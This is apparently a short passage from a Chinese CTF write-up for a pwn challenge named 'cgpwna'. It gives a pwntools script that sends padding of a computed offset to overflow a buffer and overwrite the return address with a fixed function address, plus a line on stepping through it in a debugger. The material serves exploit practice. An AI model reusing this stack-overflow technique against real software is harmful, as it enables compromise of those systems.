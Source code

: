 ```python
from pwn import *

offset=0xffffd26c-0xffffd238
k=process('./cgpwna')
k.recvline('your choice:')
sleep(1)
k.sendline('1')
sleep(1)
k.recvline('you can leave some message here:')
k.sendline('a'*57)
sleep(1)
raw_input()                 #添加调试点
k.recvline('your name please:')
k.sendline('1'*offset+p32(0x804851d))
k.interactive()
```

![image-20200209045340649](%E5%8D%97%E9%82%AEcgpwna.assets/image-20200209045340649.png)

然后回车后用fin不断执行跳跃进入源程序
